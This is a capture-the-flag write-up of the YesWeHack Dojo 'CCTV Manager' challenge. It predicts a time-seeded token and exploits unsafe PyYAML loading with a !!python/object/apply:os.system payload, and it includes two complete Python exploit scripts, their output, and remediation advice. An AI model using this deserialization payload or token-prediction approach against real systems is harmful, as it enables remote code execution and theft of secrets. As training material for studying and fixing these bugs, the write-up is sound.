

# 07-25: CCTV Manager

## Description

> During a pentest, we discovered a rare custom Linux distro running a CCTV management program that seems to be stuck in a boot process. If we can upload a custom firmware, we should be able to get a remote code execution (RCE) on the CCTV. We leave the rest to you.

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-43), created by [Brumens](https://twitter.com/Brumens2) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

First thing to note is the server imports `yaml` and `jinja2`, this should make us think about deserialization and/or SSTI vulnerabilities. Starting with the main function, we can see:

-   A token is generated based on the current time
-   The script takes 2 parameters from the user; `yaml` and `token`
-   The generated token is compared to the user-supplied one
-   If the tokens match:
    -   The user-supplied YAML config is loaded
    -   A firmware object is created, using the result of the previous operation
    -   An `update()` function is called on the firmware object
-   Finally, the template is rendered


```python
def main():
    tokenRoot = genToken(int(time.time()) // 1)

    yamlConfig = unquote("OUR_INPUT1_GOES_HERE")
    tokenGuest = unquote("OUR_INPUT2_GOES_HERE")

    access = bool(tokenGuest == tokenRoot)

    firmware = None
    if access:
        try:
            data = yaml.load(yamlConfig, Loader=yaml.Loader)
            firmware = Firmware(**data["firmware"])
            firmware.update()
        except:
            pass

    print( template.render(access=access) )
```


We'll want to know how the token is generated, since this is the first hurdle to overcome.


```python
def genToken(seed:str) -> str:
    random.seed(seed)
    return ''.join(random.choices('abcdef0123456789', k=16))
```


It makes a 16-char hex string using the seed (current time epoch). Obviously the current time is predictable, so this is a weak implementation, we'll bare this in mind for later.

Finally, on the server-side we have the `Firmware` class, this is the object that will be created from our YAML config (if we get the token right).


```python
class Firmware():
    def __init__(self, version:str):
        self.version = version

    def update(self):
        pass
```


So, where is the flag? We need to also check the challenge setup code, and will find the flag is in an environment variable.


```python
os.environ["FLAG"] = flag
```


I'll not go through the rest of the code, but note that a `model` variable is rendered but not actually defined anywhere in the challenge.


```html
<span>Camera Id: 1<b>{{ model }}</b></span>
```


### Testing functionality

As usual, we start by testing the basic functionality and see how it works. Enter some random parameters in the two form fields and we \[obviously\] get an authorisation error because "meow" isn't a valid token, or even in the correct format 🐱



We need to overcome this before we proceed, since the YAML config is not loaded at all without a valid token!

### Exploit 1: Weak PRNG

To test this I checked the HTTP request in burp and saw the POST params are `token` and `yaml`. We want to get the server time (may not be in sync with ours) so we can do that by making a request and retrieving the date from the response header.

Then, we generate a token using the same process as the server. There can be some timing issues here so I used a script that would run 5 times, incrementing the time by 1 second until it matches. Note that there is some rate-limiting so we add a slight delay between attempts.


```python
import random
import time
import email.utils
import urllib.parse as up
import requests

BASE = "https://dojo-yeswehack.com"
GET = BASE + "/challenge-of-the-month/dojo-43"
POST = BASE + "/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"

# Update with your valid JWT
JWT = ("jwt=REPLACE_ME")

MAX_TRIES = 5  # Retry if timing fails due to latency


def token_for(sec: int) -> str:
    random.seed(sec)
    return ''.join(random.choices('abcdef0123456789', k=16))


def server_sec(sess: requests.Session) -> int:
    hdr = sess.get(GET, timeout=5).headers['Date']
    return int(email.utils.parsedate_to_datetime(hdr).timestamp())


def main() -> None:

    s = requests.Session()
    s.headers.update({"Cookie": JWT, "User-Agent": "meow meow meow",
                      "Origin": BASE, "Referer": GET})

    # Get server time from date response header and calculate the timedrift
    drift = server_sec(s) - int(time.time())
    print(f"[+] drift (server-client): {drift:+d} s")

    offset = -1  # Start at -1 seconds, loop until MAX_TRIES (default=5)
    for attempt in range(1, MAX_TRIES + 1):
        # Generate seed and convert to token
        seed = int(time.time()) + drift + offset
        token = token_for(seed)
        print(f"[*] try {attempt:02d}: seed {seed}, token {token}")

        # Send our [hopefully valid] token and deserialization payload
        r = s.post(
            POST,
            data=up.urlencode({"yaml": "meow", "token": token}),
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            timeout=5,
        )

        # Did we get the timing wrong?
        if "invalid token" not in r.text.lower():
            print("\n[+] token accepted!")
            exit()

        offset += 1
        time.sleep(3)  # Delay between requests due to rate limit

    print(f"[×] gave up after {MAX_TRIES} tries")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        pass
```


Run the script and we see the token will match.


```bash
[+] drift (server-client): +2 s
[*] try 01: seed 1752675554, token 3bf4703ace4ece6b
[*] try 02: seed 1752675558, token 763040066fa3ae03
[*] try 03: seed 1752675563, token 11d76f572d4339fa

[+] token accepted!
```


### Exploit 2: YAML Deserialization

Now we need to exploit the YAML deserialization. I wasted an embarrassing amount of time on this stage because I assumed we needed to populate the `model` variable with the result (reading flag ENV VAR), as this is what's displayed on the page. Turns out the solution was much simpler than that, we can just import `os.system` and then `cat $FLAG`.

Note that the server code requires a `firmware` element.


```python
firmware = Firmware(**data["firmware"])
```


We also need a version element, and we'll replace the `update` function with the code we want to execute.


```python
class Firmware():
    def __init__(self, version:str):
        self.version = version

    def update(self):
        pass
```


Putting that all together, I used a YAML payload like:


```yaml
firmware:
    version: "meow"
    update: !!python/object/apply:os.system
        - "cat $FLAG"
```


Tying this altogether, we will generate our token and then submit the RCE payload with the following PoC. It can also be a good idea to add a proxy option so that you can review request/response in burp suite for debugging purposes.


```python
import random
import time
import email.utils
import urllib.parse as up
import re
import requests
import argparse
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

BASE = "https://dojo-yeswehack.com"
GET = BASE + "/challenge-of-the-month/dojo-43"
POST = BASE + "/api/challenges/285cec14-a511-4567-93f5-e709b0eaf9b9"

# Update with your valid JWT
JWT = ("jwt=REPLACE_ME")

# Exploit payload
YAML = """firmware:
  version: "meow"
  update: !!python/object/apply:os.system
    - "cat $FLAG"
""".strip()

FLAG_RE = re.compile(r"FLAG\{[^}]+\}")
MAX_TRIES = 5  # Retry if timing fails due to latency


def token_for(sec: int) -> str:
    random.seed(sec)
    return ''.join(random.choices('abcdef0123456789', k=16))


def server_sec(sess: requests.Session) -> int:
    hdr = sess.get(GET, timeout=5).headers['Date']
    return int(email.utils.parsedate_to_datetime(hdr).timestamp())


def main() -> None:
    ap = argparse.ArgumentParser()
    ap.add_argument(
        "--proxy", nargs="?", const="http://127.0.0.1:8080",
        help="Proxy through burp (default's to port 8080)"
    )
    args = ap.parse_args()

    s = requests.Session()
    s.headers.update({"Cookie": JWT, "User-Agent": "meow meow meow",
                      "Origin": BASE, "Referer": GET})

    if args.proxy:
        s.proxies = {"http": args.proxy, "https": args.proxy}
        s.verify = False  # Ignore burp cert errors

    # Get server time from date response header and calculate the timedrift
    drift = server_sec(s) - int(time.time())
    print(f"[+] drift (server-client): {drift:+d} s")

    offset = -1  # Start at -1 seconds, loop until MAX_TRIES (default=5)
    for attempt in range(1, MAX_TRIES + 1):
        # Generate seed and convert to token
        seed = int(time.time()) + drift + offset
        token = token_for(seed)
        print(f"[*] try {attempt:02d}: seed {seed}, token {token}")

        # Send our [hopefully valid] token and deserialization payload
        r = s.post(
            POST,
            data=up.urlencode({"yaml": YAML, "token": token}),
            headers={"Content-Type": "application/x-www-form-urlencoded"},
            timeout=5,
        )

        # Did we get the timing wrong?
        if "invalid token" not in r.text.lower():
            # If not, did we find a flag?
            if m := FLAG_RE.search(r.text):
                print(f"\n[✓] FLAG → {m.group(0)}")
            else:
                print("\n[?] token accepted but flag not in response ↓")
                print(r.text)
                exit()
            return

        offset += 1
        time.sleep(3)  # Delay between requests due to rate limit

    print(f"[×] gave up after {MAX_TRIES} tries")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        pass
```


We run the exploit script and receive the flag 😎


```bash
[+] drift (server-client): +3 s
[*] try 01: seed 1752676034, token edc16546af256495
[*] try 02: seed 1752676039, token 51e5a286d5c4cb8f

[✓] FLAG → FLAG{M4lware_F1rmw4r3_N0t_F0und}
```


🚩Flag: `FLAG{M4lware_F1rmw4r3_N0t_F0und}`

## Remediation

-   Never use `yaml.load()` on untrusted input, use `yaml.safe_load()` instead to prevent code execution.
-   Don't allow user-supplied YAML to populate fields that get passed into executable functions or object methods.
-   Remove dangerous loaders (`yaml.Loader`, `yaml.FullLoader`) from any deserialisation path.
-   Avoid predictable token generation (`random.seed(time)`), use cryptographically secure randomness like `secrets.token_hex()`.
-   Sanitise or restrict access to `os.environ`, and never expose sensitive data via global template variables.

## Summary (TLDR)

Weak PRNG let us guess a time-based token which unlocks YAML deserialisation. We can then replace the `update` function with an RCE payload (`os.system("cat $FLAG")`) to dump the flag in the response.
